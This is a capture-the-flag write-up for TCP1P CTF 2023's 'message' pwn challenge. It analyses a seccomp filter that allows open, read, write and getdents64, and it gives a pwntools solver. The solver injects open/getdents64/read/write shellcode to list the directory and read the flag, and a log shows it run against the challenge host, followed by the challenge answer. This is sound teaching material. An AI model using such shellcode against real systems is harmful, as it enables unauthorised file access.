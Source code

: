 # message

## Description

> What do you want to say to me?
>
> nc ctf.tcp1p.com 8008
>
> Attachment: chall

## Flag

TCP1P{I_pr3fer_to_SAY_ORGW_rather_th4n_OGRW_d0nt_y0u_th1nk_so??}

## Solution

```console
root@kali:~/ctf/TCP1PCTF_2023/pwn/message# file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e1162c30beb8e3402633c04668f15039a1de7f63, for GNU/Linux 3.2.0, not stripped

root@kali:~/ctf/TCP1PCTF_2023/pwn/message# checksec chall
[*] '/root/ctf/TCP1PCTF_2023/pwn/message/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Looking at decompiled code with Ghidra, I found [Seccomp](https://en.wikipedia.org/wiki/Seccomp) is enabled.

```c
void seccomp_setup(void)

{
  undefined8 uVar1;
  
  uVar1 = seccomp_init(0);
  seccomp_rule_add(uVar1,0x7fff0000,2,0);
  seccomp_rule_add(uVar1,0x7fff0000,0,0);
  seccomp_rule_add(uVar1,0x7fff0000,1,0);
  seccomp_rule_add(uVar1,0x7fff0000,0xd9,0);
  seccomp_load(uVar1);
  return;
}
```

The allowed syscall is `open`(2), `read`(0), `write`(1) and `getdents64`(0xd9 217).
Also I can check it by using [seccomp-tools](https://github.com/david942j/seccomp-tools).

```console
root@kali:~/ctf/TCP1PCTF_2023/pwn/message# seccomp-tools dump ./chall
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0009
 0006: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0009
 0007: 0x15 0x01 0x00 0x00000002  if (A == open) goto 0009
 0008: 0x15 0x00 0x01 0x000000d9  if (A != getdents64) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

related challenge:

- <https://tripoloski1337.github.io/ctf/2020/12/20/CSCCTF-FINAL-2020.html>
- <https://blog.maple3142.net/2021/08/09/rarctf-2021-writeups/>

Solution Step:

1. Directory listing by using `getdents64` syscall
2. Read flag

solver.py

```python
from pwn import *

elf = ELF("chall", checksec=False)
context.binary = elf


def conn() -> pwnlib.tubes:
    if args.REMOTE:
        io = remote("ctf.tcp1p.com", 8008)
    elif args.GDB:
        gdbscript = """
        b *main+188
        c
        """
        io = gdb.debug([elf.path], gdbscript=gdbscript)
    else:
        io = elf.process()

    return io


def gen_payload() -> bytes:
    payload = b""

    if args.STEP1:
        payload += asm(
            shellcraft.open(b".", 0x1000)
            + "mov rbx, rsp;"
            + "sub rbx, 0x300;"
            + shellcraft.getdents64(3, "rbx", 0x600)
            + shellcraft.write(1, "rbx", 0x600)
        )
    elif args.STEP2:
        payload += asm(
            shellcraft.open(args.FILENAME)
            + shellcraft.read(3, "rsp", 0x100)
            + shellcraft.write(1, "rsp", 0x100)
        )

    return payload


def main():
    payload = gen_payload()

    io = conn()
    io.send(payload)
    log.info(io.recvallS())


if __name__ == "__main__":
    main()
```

```console
root@kali:~/ctf/TCP1PCTF_2023/pwn/message# python3 solver.py REMOTE STEP1
[+] Opening connection to ctf.tcp1p.com on port 8008: Done
[+] Receiving all data: Done (1.60KB)
[*] Closed connection to ctf.tcp1p.com port 8008
[*] Anything you want to tell me?
    Y`0\x00(snip)flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt

root@kali:~/ctf/TCP1PCTF_2023/pwn/message# python3 solver.py REMOTE STEP2 FILENAME=flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt
[+] Opening connection to ctf.tcp1p.com on port 8008: Done
[+] Receiving all data: Done (361B)
[*] Closed connection to ctf.tcp1p.com port 8008
[*] Anything you want to tell me?
    TCP1P{I_pr3fer_to_SAY_ORGW_rather_th4n_OGRW_d0nt_y0u_th1nk_so??}
```
